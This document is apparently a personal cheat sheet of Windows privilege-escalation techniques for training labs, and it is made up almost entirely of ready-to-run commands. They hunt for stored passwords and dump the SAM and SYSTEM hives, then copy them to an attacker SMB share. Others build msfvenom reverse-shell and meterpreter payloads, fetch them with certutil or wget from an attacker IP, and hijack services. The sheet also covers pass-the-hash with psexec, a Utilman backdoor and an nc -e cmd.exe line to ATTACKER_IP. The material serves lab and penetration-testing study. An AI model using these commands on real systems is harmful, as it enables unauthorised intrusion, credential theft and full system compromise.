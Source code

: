 
other guides to check out:
https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html
https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md
https://fuzzysecurity.com/tutorials/16.html
More links: https://github.com/TCM-Course-Resources/Windows-Privilege-Escalation-Resources

can use iron corp to test win stuff

if webshell
	get info on current dir `cd`
	go to and list contents of a dir `cd C:\Windows\Microsoft.NET\Framework\ && dir`

First checks
	List environment
		cmd: `set`
		ps: `Get-ChildItem env: | Format-Table -Wrap`
	Information
		cmd: `ver`
		cmd: `systeminfo`
		ps: Get-SystemInfo
		cmd: `tasklist`
		ps: `Get-LocalUser`
	Networking
		cmd: `ipconfig /all`
		ps: `Get-NetIPConfiguration`
		ps: `Get-NetIPAddress`
		cmd: `netstat`
		ps: `Get-NetTCPConnection`
	whatever

whoami /all

net user - list local users
net user username
net user administrator
net localgroup
net localgroup administrators

ipconfig /all
dns might be domain server

arp -a
are there other computer but us and the dns?

route print

netstat -ano
what are we listening on, did we see all in nmap

--

manual password hunting
`findstr /ai password *.txt *.ini *.config*` does a recursive search in files
also search for uid, pwd and auth

av & fw
`sc` - service controll
`sc query windefend`
`sc queryex type=service`
netsh advfirewall firewall dump
netsh firewall show state
netsh firewall show config


wmic
	`wmic qfe` quick fix engineering - list hotfixes/patches
	`wmic logicaldisc` - list drives


Remember
`dir /a` Displays hidden and system files as well.
`dir /s` Displays files in the current directory and all subdirectories.

Check for credentials left from unattended installation:
	`C:\Unattend.xml`
	`C:\Windows\Panther\Unattend.xml`
	`C:\Windows\Panther\Unattend\Unattend.xml`
	`C:\Windows\system32\sysprep.inf`
	`C:\Windows\system32\sysprep\sysprep.xml`
	File format: [[unattended installation credential files]]

Powershell history
	cmd: `type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`
	ps: `type $Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`

Other interesting files
	`\windows\win.ini`
	`\windows\system32\config\sam`

Saved credentials
	cmd/ps: `cmdkey /list` no passwords, but can be used with `runas /savecred /user:admin cmd.exe`

Credential files
	Firefox
		https://book.hacktricks.wiki/en/generic-methodologies-and-resources/basic-forensic-methodology/specific-software-file-type-tricks/browser-artifacts.html?highlight=firefox#firefox
		`%userprofile%\AppData\Roaming\Mozilla\Firefox\Profiles\`
	Chrome...

Configuration files
	find strings in logfiles
		cmd/ps: `type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString`
	IIS
		`C:\inetpub\wwwroot\web.config`
		`C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config`
	Putty
		cmd/ps: `reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s` proxy creds?
	Add more - software that store creds have methods to retrieve them - browsers, email-, FTP-, SSH clients, VNC software ...

Scheduled tasks
	`schtasks` list all tasks
	`schtasks /query /tn [taskname] /fo list /v` get more info on task
	`schtasks /run /tn [taskname]` start task (if perms)

Permissions and ownership
	`icacls .` [[icacls]]

Getting text into text files at ps/cmd-prompt
	cmd: `echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat`

MSI installation perms
	These reg keys needs to be set to exploit AlwaysInstallElevated:
		`reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer`
		`reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer`
	Generate msi:
		`msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o malicious.msi`
	Run it:
		`msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi`

Services
	[[services, control]]
	Get info
		ps: `Get-Service` list services
		`sc qc [service name]` get info on specific service
	Service info location in registry
		`HKLM\SYSTEM\CurrentControlSet\Services\`
	Get perms
		ps, cmd: `icacls [service executable]` executable = BINARY_PATH_NAME in sc, ImagePath in registry
		can be found by winpeas
		set perms
			ps, cmd: `icacls "C:\PROGRA~2\SYSTEM~1\WService.exe" /grant Everyone:F`
	Exploiting Modify permissions on the service exe - Generate service executable, upload, set perms
		atk: `msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe`
		atk: share the file (`python3 -m http.server 8000`)
		ps: `Stop-Service -Name WindowsScheduler -Force`
		cmd: `net stop WindowsScheduler`
		ps: `wget "http://10.18.21.236:8000/shells/revsh-win-x86-service.exe" -O "C:\PROGRA~2\SYSTEM~1\WService.exe"`
		cmd: `certutil -urlcache -split -f "http://10.18.21.236:8000/shells/revsh-win-x86-service.exe" "C:\PROGRA~2\SYSTEM~1\WService.exe"`
		atk: start a listener (`nc -lvnp 443`)
		ps: `Start-Service -Name "SERVICE-NAME"`
		cmd: `net start "SERVICE-NAME"`
	Exploiting Unquoted Service Paths
		Execution order of unquoted path: `C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe`
			1. `C:\MyPrograms\Disk.exe`
			2. `C:\MyPrograms\Disk Sorter.exe`
			3. `C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe`
		atk: `msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe`
		atk: share the file (`python3 -m http.server 8000`)
		ps: `wget "http://10.18.21.236:8000/shells/revsh-win-x86-service.exe" -O "C:\MyPrograms\Disk.exe"`
		cmd: `certutil -urlcache -split -f "http://10.18.21.236:8000/shells/revsh-win-x86-service.exe" "C:\MyPrograms\Disk.exe"`
		ps, cmd: `icacls C:\MyPrograms\Disk.exe /grant Everyone:F`
		atk: start a listener (`nc -lvnp 443`)
		ps: `Restart-Service -Name "SERVICE-NAME" -Force`
		cmd: `net stop "SERVICE-NAME" && net start "SERVICE-NAME"`
	Exploiting Insecure Service Permissions
		ps, cmd: `sc.exe sdshow thmservice` Check service permissions [[permissions SDDL]]
		`msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe`
		share the file (`python3 -m http.server 8000`)
		ps: `wget "http://10.18.21.236:8000/shells/revsh-win-x86-service.exe" -O "C:\Users\thm-unpriv\rev-svc3.exe"`
		cmd: `certutil -urlcache -split -f "http://10.18.21.236:8000/shells/revsh-win-x86-service.exe" "C:\Users\thm-unpriv\rev-svc3.exe"`
		ps, cmd: `icacls C:\Users\thm-unpriv\rev-svc3.exe /grant Everyone:F`
		To change the service's associated executable and account, we can use the following command (mind the spaces after the equal signs when using sc.exe):
		ps:  `sc.exe config THMService binPath="C:\Users\thm-unpriv\rev-svc3.exe" obj=LocalSystem` to set new bin & account
		cmd: `sc config THMService binPath="C:\Users\thm-unpriv\rev-svc3.exe" obj=LocalSystem` to set new bin & account
		start a listener (`nc -lvnp 443`)
		ps: `Restart-Service -Name THMService -Force`
		cmd: `net stop "SERVICE-NAME" && net start THMService`

Check your current integrity level with
	`whoami /groups`
	more info https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/integrity-levels

Privileges
	`whoami /priv` shows only current ones, not the admin mode ones (like being in the backup group ones)
	`whoami /all` to see groups too as we probably have to open cmd as admin to get all privileges
	[Complete list of privileges](https://learn.microsoft.com/en-us/windows/win32/secauthz/privilege-constants)
	Find ways to exploit: [here](https://github.com/gtworek/Priv2Admin)
	If `SeBackupPriviledge` we can read any file
		`reg save hklm\system .\system.hive`
		`reg save hklm\sam .\sam.hive`
		atk: `sudo impacket-smbserver -smb2support -username user -password password myshare ../dirname`
		`net use \\10.10.15.2\myshare /USER:user password`
		`copy sam.hive \\10.18.21.236\myshare`
		`copy system.hive \\10.18.21.236\myshare`
		atk: `impacket-secretsdump -sam sam.hive -system system.hive LOCAL`
		atk: `impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:8f81ee5558e2d1205a84d07b0e3b34f5 administrator@10.10.62.147`
		- or we can [[SeBackupPriviledge]]
	if `SeTakeOwnershipPrivilege` we can take ownership of any object on the system, including files and registry keys
		`takeown /f C:\Windows\System32\Utilman.exe`
		`icacls C:\Windows\System32\Utilman.exe /grant THMTakeOwnership:F`
		`copy cmd.exe utilman.exe`
		Lock the console and press `Win+U`
	if `SeImpersonate` or `SeAssignPrimaryToken`
		Account with these privs: `LOCAL SERVICE`, `NETWORK SERVICE ACCOUNTS`, `iis apppool\defaultapppool`, others?
		Exploit this by:
			1. spawn a process with ^ that users can connect and authenticate to
			2. force privileged users to connect and authenticate
	https://www.exploit-db.com/papers/42556
	SeTcbPrivilege
	SeRestorePrivilege
	SeCreateTokenPrivilege
	SeLoadDriverPrivilege
	SeDebugPrivilege
	play with these on thm alfred


Installed/unpatched software
	`wmic product get name,version,vendor` enum programs - also check desktop shortcuts, start menu, available services...
	look for exploits for the apps
	Druva inSync 6.6.3 - example https://www.exploit-db.com/exploits/49211

HotFixes
	`wmic qfe get Caption,Description,HotFixID,InstalledOn`

List drive letters
	`(wmic logicaldisk get caption 2>nul | more) || (fsutil fsinfo drives 2>nul)`

Metasploit
	go from nc shell to msf
		make msfvenom payload
			`msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.18.21.236 LPORT=444 -f exe -o revsh-meterpr-444.exe`
		from the box - copy to box
			`certutil -urlcache -split -f "http://10.18.21.236:8000/shells/revsh-meterpr-444.exe" "C:\windows\temp\revsh-meterpr-444.exe"`
		start metasploit listener on attacker machine
			`msfconsole -q`
				`use exploit/multi/handler`
				`set payload windows/meterpreter/reverse_tcp`
				`set lhost 10.18.21.236`
				`set lport 444`
				`options` check that it's all correct
				`run` will start listening
		from the box - start revsh
			`C:\windows\temp\revsh-meterpr-444.exe`
	if connected
		`multi/recon/local_exploit_suggester`

Tools
	WinPEAS
		start kali python http server `python3 -m http.server 8000`
		 https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS exe, bat & ps1 versions
		cmd: `certutil -urlcache -split -f http://10.21.31.111:8000/enum/winPEASany.exe C:\windows\temp\winpeas.exe`
		ps: `iwr "http://10.18.21.236:8000/enum/winPEASany.exe" -outfile "C:\windows\temp\winpeas.exe"`
		`winpeas > log.txt`
	PrivescCheck
		https://github.com/itm4n/PrivescCheck
		Bypass execution policy restrictions before running:
			`Set-ExecutionPolicy Bypass -Scope process -Force`
			`. .\PrivescCheck.ps1`
			`Invoke-PrivescCheck`
		Basic check
			`powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"`
		Extended checks + human-readable reports
			`powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck -Extended -Report PrivescCheck_$($env:COMPUTERNAME) -Format TXT,HTML"`
		All checks + all reports
			`powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck -Extended -Audit -Report PrivescCheck_$($env:COMPUTERNAME) -Format TXT,HTML,CSV,XML"`
	WES-NG
		https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS
		runs on attacker box
		install, run "wes.py --update" to upd database
		run `systeminfo > info.txt` on windows box
		run `wes.py info.txt` on attacker box

